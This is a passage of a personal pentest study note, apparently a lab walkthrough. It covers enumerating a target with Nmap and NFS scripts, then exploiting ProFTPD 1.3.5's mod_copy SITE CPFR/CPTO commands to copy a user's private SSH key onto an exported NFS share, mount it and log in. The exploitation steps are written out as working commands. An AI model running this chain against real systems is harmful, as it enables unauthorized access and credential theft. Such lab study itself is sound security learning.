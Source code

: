 ##### ***What is FTP?***

##### ***Exploiting ProFTPD 1.3.5 with mod_copy***
From running am Nmap scan `nmap 10.10.28.128 -vvv` against a vulnerable machine, we can see that it has the [[RPCBind - 111 TCP & UDP]] and the [[FTP - 21 TCP]] service running, both with open ports.
```
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
22/tcp   open  ssh          syn-ack
80/tcp   open  http         syn-ack
111/tcp  open  rpcbind      syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
2049/tcp open  nfs          syn-ack
```

Run the Nmap scan `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.28.128`. 
1. **nfs-ls**: This script lists files and directories in NFS shares. It's equivalent to using the `ls` command on an NFS share to see what files and directories are available.
    - Similar to: `ls` command for NFS
    - Use Case: To check what files and directories are exposed on an NFS share
2. **nfs-statfs**: This script retrieves disk space statistics from the NFS share, like total size, free space, and used space.
    - Similar to: `df` command for NFS
    - Use Case: To understand the disk utilization on the NFS share
3. **nfs-showmount**: This script enumerates the paths that are exported via NFS from the target.
    - Similar to: `showmount -e` command
    - Use Case: To discover which directories are shared by the NFS service on the target machine

The result from the scan above tells me that the `/var` directory is exposed via NFS. 
```
PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *
```

Use Netcat to try and connect to FTP server `nc 10.10.28.128 21` if you get the response of 
`220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.28.128]` then you will see that it is vulnerable to the `mod_copy` vulnerability. 

Run these commands within the ProFTPD shell to copy the user's .ssh key to the exposed `/var/tmp` NFS directory on the target machine. The `<user>`'s username was previously discovered by enumerating [[SMB - 445 TCP]] shares, and we know he has an ssh key because we found a log file from the user on his share when he had generated an .ssh key for himself.
```
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.28.128]
SITE CPFR /home/kenobi/.ssh/id_rsa  
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
421 Login timeout (300 seconds): closing control connection
```

Now try and mount the `/var/tmp` directory to our machine:
```
mkdir /mnt/user-ssh
mount 10.10.28.128:/var /mnt/user-ssh  
ls -la /mnt/user-ssh
```

This gives us a network mount on our machine, now you copy the .ssh key from the `/var/tmp` directory into our .ssh folder. 
```
sudo cp /mnt/user-ssh/tmp/id_rsa ~/.ssh/.
sudo chmod 600 ~/.ssh/id_rsa
ssh -i ~/.ssh/id_rsa <user>@10.10.28.128
```

Now you should be in the box logged in as your user, now lets try [[Linux privilege escalation through SUID bit exploitation]].
##### ***Resources***
[Exploiting ProFTPD 1.3.5 with mod_copy](http://www.proftpd.org/docs/contrib/mod_copy.html)